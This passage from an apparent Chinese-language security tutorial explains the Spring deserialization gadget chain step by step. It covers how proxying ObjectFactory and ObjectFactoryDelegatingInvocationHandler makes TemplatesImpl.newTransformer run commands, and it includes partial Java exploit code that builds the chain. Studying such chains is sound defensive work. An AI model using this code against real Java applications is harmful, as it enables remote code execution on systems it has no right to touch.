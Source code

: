 2、然后将动态代理后的`ObjectFactory`类型的变量，传递给`ObjectFactoryDelegatingInvocationHandler`类进行初始化。这样只要触发了 ObjectFactoryDelegatingInvocationHandler 代理类的任意方法，都会触发代理的`invoke()`方法，从而触发`getObject()`方法的调用。

3、在`org.springframework.core.SerializableTypeWrapper.MethodInvokeTypeProvider#readObject`方法中，通过反射将`methodName`修改为`newTransformer()`。同时，`ReflectionUtils.findMethod()`方法需要`this.provider.getType()`返回的类中存在`newTransformer()`方法，才可以成功获得`newTransformer()`方法。

​ `MethodInvokeTypeProvider`里面的 provider 成员变量是`TypeProvider`类型，因此使用 AnnotationInvocationHandler 动态代理来修改`TypeProvider`的`getType()`方法返回的值。同时因为`getType()`方法返回的类型为`Type`，并且我们需要在返回值的类中找到对应的`newTransfromer()`方法，所以`getType()`方法需要修改的返回值是 Type 类型又是 Templates(TemplatesImpl 父类) 类型的类。

4、第三步中，`ObjectFactoryDelegatingInvocationHandler`实现了`InvocationHandler`接口，我们就可以使用`ObjectFactoryDelegatingInvocationHandler`来代理一个既是 Type 类型又是 Templates(TemplatesImpl 父类) 类型的类，并将这个类放到`getType()`返回的值中。

​ 这样当程序运行到到`org.springframework.util.ReflectionUtils#invokeMethod`方法的时候，会调用`ObjectFactoryDelegatingInvocationHandler`代理后的类的`newTransformer()`方法，然后就会触发`org.springframework.beans.factory.support.AutowireUtils.ObjectFactoryDelegatingInvocationHandler#invoke`方法，然后就会触发`ObjectFactory`的`getObject()`，这就与第一步和第二步做的事情联系到一起了。

5、最终在`org.springframework.beans.factory.support.AutowireUtils.ObjectFactoryDelegatingInvocationHandler#invoke`中实现触发命令执行。

```plain
TemplatesImpl tmpl = Util.SeralizeUtil.generateTemplatesImpl();
        // 使用 AnnotationInvocationHandler 动态代理
        Class<?>       c           = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> constructor = c.getDeclaredConstructors()[0];
        constructor.setAccessible(true);

        HashMap<String, Object> map = new HashMap<>();
        map.put("getObject", tmpl);

        // 使用动态代理初始化 AnnotationInvocationHandler
        InvocationHandler invocationHandler = (InvocationHandler) constructor.newInstance(Target.class, map);

        // 使用 AnnotationInvocationHandler 动态代理 ObjectFactory 的 getObject 方法，使其返回 TemplatesImpl
        ObjectFactory<?> factory = (ObjectFactory<?>) Proxy.newProxyInstance(
                ClassLoader.getSystemClassLoader(), new Class[]{ObjectFactory.class}, invocationHandler);
                // 当触发factory.getObject()方法时，返回值就被修改为tmpl

        // test :  factory.toString();

                //ObjectFactoryDelegatingInvocationHandler 的 invoke 方法触发 ObjectFactory 的 getObject
                //并且会调用 method.invoke(返回值,args)
                //此时返回值被我们使用动态代理改为了 TemplatesImpl
                //接下来需要 method 是 newTransformer()，就可以触发调用链了
        Class<?>       clazz          = Class.forName("org.springframework.beans.factory.support.AutowireUtils$ObjectFactoryDelegatingInvocationHandler");
        Constructor<?> ofdConstructor = clazz.getDeclaredConstructors()[0];
        ofdConstructor.setAccessible(true);
        // 使用动态代理出的 ObjectFactory 类实例化 ObjectFactoryDelegatingInvocationHandler
        InvocationHandler ofdHandler = (InvocationHandler) ofdConstructor.newInstance(factory);

                //HashMap hashMap = (HashMap) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(),HashMap.class.getInterfaces(),ofdHandler);
                //hashMap.get(1);
        // ObjectFactoryDelegatingInvocationHandler 本身就是个 InvocationHandler
        // 使用它来代理一个类，这样在这个类调用时将会触发 ObjectFactoryDelegatingInvocationHandler 的 invoke 方法
        // 我们用它代理一个既是 Type 类型又是 Templates(TemplatesImpl 父类) 类型的类
        // 这样这个代理类同时拥有两个类的方法，既能被强转为 TypeProvider.getType() 的返回值，又可以在其中找到 newTransformer 方法
        Type typeTemplateProxy = (Type) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(),
                new Class[]{Type.class, Templates.class}, ofdHandler);

```